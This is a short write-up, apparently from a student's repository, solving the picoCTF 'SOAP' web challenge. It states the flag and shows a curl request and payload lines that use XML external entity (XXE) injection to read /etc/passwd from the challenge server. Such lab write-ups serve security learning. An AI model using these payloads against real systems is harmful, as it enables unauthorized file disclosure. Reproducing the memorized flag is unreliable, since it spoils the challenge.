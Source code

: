 # SOAP

**Flag:** `picoCTF{XML_3xtern@l_3nt1t1ty_0e13660d}`

Approach

- step 1<br>
We can intercept the request using BurpSuite to modify it.

- step 2<br>
We can make use of an XXE injection to interfere with the site's processing of the XML data.


![](https://github.com/adityachawla005/cryptonite_taskphase_Aditya/raw/main/TP2/Web%20Exploitation/assets/SOAP1.png)



What you learned through solving this challenge:
<br>
- We learned about XXE injection and the different payloads.

Other incorrect methods you tried:
<br>
- Tried inspecting cURL,didnt get response.

```
curl -X POST http://saturn.picoctf.net:54219/data \
     -H "Content-Type: application/xml" \
     -H "Accept-Language: en-GB,en;q=0.9" \
     -H "User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.6723.70 Safari/537.36" \
     -H "Accept: */*" \
     -H "Origin: http://saturn.picoctf.net:54219" \
     -H "Referer: http://saturn.picoctf.net:54219/" \
     -H "Accept-Encoding: gzip, deflate, br" \
     -H "Connection: keep-alive" \
     -d '<?xml version="1.0" encoding="UTF-8"?>
          <!DOCTYPE data [
              <!ENTITY xxe SYSTEM "file:///etc/passwd">
          ]>
          <data>
              <ID>&xxe;</ID>
          </data>'
```


Payloads tried:
```
  - <!DOCTYPE data [<!ENTITY xxe SYSTEM "file:///etc/passwd">]>
  - <!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
```



References
<br>
-[XXE](https://portswigger.net/web-security/xxe)

